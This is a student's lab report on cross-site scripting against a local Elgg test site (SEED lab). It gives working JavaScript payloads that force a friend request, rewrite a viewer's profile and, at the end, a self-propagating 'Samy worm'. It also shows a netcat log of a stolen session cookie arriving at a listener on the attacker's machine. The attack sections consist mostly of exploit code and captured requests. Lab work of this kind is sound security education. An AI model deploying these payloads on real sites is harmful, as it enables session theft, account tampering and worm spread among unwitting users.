## Lab05
###### Lin Shi (n92s773)
###### linshi1768@gmail.com
###### CSCI 476
###### March 23, 2021
<br>

**Note: To save space, I did not show all the screenshots, they are mostly verify before the attack. If you wish to check, please click the link; otherwise, it does not affect the input output of the attack.**
### Task 1:
This task carries out a XSS attack by adding some JavaScript code in one's profile, I decided to use Alice for this:


After I saved the update, it is going to bring me to Alice's home page and I saw:

This proves that our attack was success. On the other hand, I have tried many other spots to insert the JavaScript code. For example, if I just add the JavaScript code in About me, without going into the text mode option, the attack was unsuccessful since that is being treated as a paragraph and characters like "<" and ">" has been converted. Spots such as the email require something in the form of an email; thus, it will not allow me to update it with a JavaScript code. Overall, I have carried out the attack in many different spots such as Brief description and About me (when I am under text mode).

### Task 2:
In this task, I am trying to carry out the attack to show that I could get the cookie information and not just a random popup that does not have any sensitive information:


Just like last time, I saved it and it will bring me to the profile page:

Similar to last time, a popup appeared. However, it is displaying the cookie information instead of a message. Similar to last time, I tried the code in different fields and everything was the same as last time.

### Task 3:
Although task 2 was cool, but the cookie information is displayed to the victim, so the attacker could not actually see the information to do any damage. This time, we are trying to pass the cookie information to the attack's machine:

```
[03/10/21]seed@VM:~/.../lab05$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 33100
GET /?c=Elgg%3Dsjf4dg71i0hbrpvj34sl8b78uo HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.xsslabelgg.com/profile/alice
```
This time, the attacker, netcat, is waiting on port 5555 for the response. In our JavaScript code, we included a image tag that tells it to go to the location, which is our local host this time, and through port 5555. The cookie information is passed to the location while Elgg request for the "image". Therefore, we have received the cookie information on the attack's end.


### Task 4:

#### Task 4.1:
In this task, I am trying to carry out an attack that will add Samy as a friend when his profile is view by anyone. First, I did a regular add friend and used burp suite to find the information I need.
```
GET /action/friends/add?friend=59&__elgg_ts=1615407806&__elgg_token=9l5ZkOx6YH-W4EjfXoGmaQ&__elgg_ts=1615407806&__elgg_token=9l5ZkOx6YH-W4EjfXoGmaQ HTTP/1.1
Host: www.xsslabelgg.com
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://www.xsslabelgg.com/profile/samy
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Elgg=084bm4flu0uc2980g85k5q8s9f
Connection: close
```

In the code, we can see the elgg_token and elgg_ts being found for us. Thus, we need to use the other information to try to make the sendurl as closely as possible. Through the information above, we found the host (www.xsslabelgg.com), the location where the action of adding a friend is located (/action/friends/add), and Samy's guid (59). Then we are just added everything up to form our sendurl. Then I included the JavaScript code in about me in Text mode of About me.
```
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          
    var token="&__elgg_token="+elgg.security.token.__elgg_token; 

    var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=59" + token + ts;  

    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```


Then I made sure Samy and Alice are not friends. (To save a little space, I have provided the [Link](Task4-1-2.PNG) if you would like to see it)
Next I searched for [Samy as Alice](Task4-1-3.png) and viewed [Samy's profile](Task4-1-4.PNG). When I go back to view Alice's friend list:


We can see that Samy is a friend of Alice but Alice never had that request. When I logged in as Samy, I could see that [Samy and Alice are friends](Task4-1-6.PNG). Since we never said in the code that Samy should not add himself as a friend, it happened when we viewed Samy's profile as Samy.

#### Task 4.2:
This time, we are trying to see if Editor mode is going to launch the attack. Before I tried this, I deleted everyone as a friend and the original code. As we can see, [no one](Task4-2-1.PNG) is Samy's friend and [no one](Task4-2-2.PNG) has made friend with Samy. Then I included the same code in the editor mode:
```
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=59" + token + ts;  

    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```




Then when we viewed Samy's profile, the whole code appears. When we opened the inspector tool, we can see that "<" has been converted to &lt and ">" has been converted to &gt while being wrapped in paragraph tag. When we view Samy's friend, it is still blank. To verify that it is not because of my code, I did it again in [Brief description](Task4-2-7) and logged in as Charlie to test it out. When I went back to [Samy's friend list](Task4-2-8). Both Charlie and Samy appeared. Thus, we can conclude that adding the code in editor's mode is unsuccessful.

### Task 5:

#### Task 5.1:
In this task, we are trying to modify other people's profile page if they view ours. In order to accomplish this, I have to first understand how update profile is used. Therefore, I looked to burp suite for help:
```
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
Content-Length: 2536
...
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="__elgg_token"
hlaPgUV7HjfhLOIUsQfU1Q
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="__elgg_ts"
1615410743
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="name"
Samy
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="description"
<p>This is a test</p>
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[description]"
2
...
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="guid"
59
------WebKitFormBoundarywTWFRbcqOckh4hVo--
```
For full [Request](Task5.txt). From this, I found the action path /action/profile/edit, how the information contains the description and the accesslevel[description], and all of the levels are 2. Therefore, I messed around and constructed the following url and content information:
```
<script type="text/javascript">
window.onload = function(){
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var desc = "&description=Samy is my hero" + "&accesslevel[description] = 2";

    // Construct the content of your url.
    var content=token+ts+"&name=" + userName + desc + guid;     //FILL IN
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var samyGuid=59;   
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```
Since the token and time stamp is needed for every connection, I included it in the content, then the name of the user that I have followed by what I named desc, which is the description and accesslevel[description], followed by the guid. The url is the same just with another path to the edit action. Then I included that in text mode of about me:


After writing the code in Samy's profile, I logged in as Alice and made sure that her [profile](Task5-1-2.PNG) is blank. Then I [searched](Task5-1-3.PNG) for Samy. When I came back to Alice's profile, I have the following:



I could see that Samy is my hero is located on Alice's profile even though all Alice did was view Samy's profile page. Thus, we can conclude that our attack was successful.

#### Task 5.2:
We need line (1) to ensure that Samy is not attacking himself. In the last task, we can see that Samy has friended himself and that is not an normal action a user can complete. In this case, since the worm is not self-propagating yet, if Samy attacks himself, it would remove his worm that he wrote, so anyone who comes after the attack will not be affected. Furthermore, you would not want to attack yourself anyways. In conclusion, line (1) will check the user's guid to make sure it is not Samy, to guarantee that Samy is not attacking himself. Then I removed the line to try the attack. First, I double checked to make sure [Samy](Task5-2-1.PNG) is not displaying the message. Then I updated the code in his profile:


When I saved it, [nothing happened](Task5-2-3.PNG); however, if I refresh the page, Samy's my hero is on Samy's profile:


When I go into his profile, I can see that the code has been updated to the message, which means no one after that attack will be affected when they view Samy's page. Therefore, we need to check to make sure Samy is not attacking himself.

### Task 6:
In this task, we are making a Samy worm. It includes all of the previous tasks and it copies itself to whoever views it. Which means it will spread itself more rapidly. This time, the skeleton of the code is provided, where it contains the headerTag, the tailTag, and copies every code to the body again. Regarding to the actual adding friend and updating about me, I am just copying what I have done before and duplicate the action where I want to have two GET request:
```
<script type="text/javascript" id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  var desc = "&description=Samy is my hero" + wormCode;
  desc    += "&accesslevel[description]=2";                       


  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts    = "&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token = "&__elgg_token="+elgg.security.token.__elgg_token;


  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;

  samyGuid = 59;
  if (elgg.session.user.guid != samyGuid){

    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl,true);
    Ajax.setRequestHeader("Content-Type",
                          "application/x-www-form-urlencoded");
    Ajax.send(content);

    sendurl = "http://www.xsslabelgg.com/action/friends/add" + "?friend=59" + token + ts;
    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type",
                          "application/x-www-form-urlencoded");
    Ajax.send();

  }
}
```
Then I included the code in Samy's page:
